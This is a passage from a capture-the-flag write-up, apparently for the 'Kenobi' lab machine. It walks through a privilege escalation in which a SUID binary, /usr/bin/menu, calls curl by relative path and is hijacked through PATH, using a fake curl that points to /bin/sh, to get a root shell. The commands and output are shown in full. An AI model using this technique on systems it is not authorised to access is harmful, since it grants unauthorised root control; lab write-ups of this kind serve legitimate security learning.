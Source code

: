 Most of the above files look standard unix, however, /usr/bin/menu looks out of place.



## Examining /usr/bin/menu

Running the command 'strings' , this shows that the binary runs the commands, ipconfig, curl and uname. However, when menu calls this function they use the relative path rather than an absolute path. 

```bash
kenobi@kenobi:~$ ll -a /usr/bin/menu 
-rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu*
```

Also it shows that the menu command runs as root.



## Getting a shell as root



Copy /bin/sh to current directory and rename as curl.

```bash
kenobi@kenobi:/tmp$ echo /bin/sh > curl 
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# whoami
root
# 
```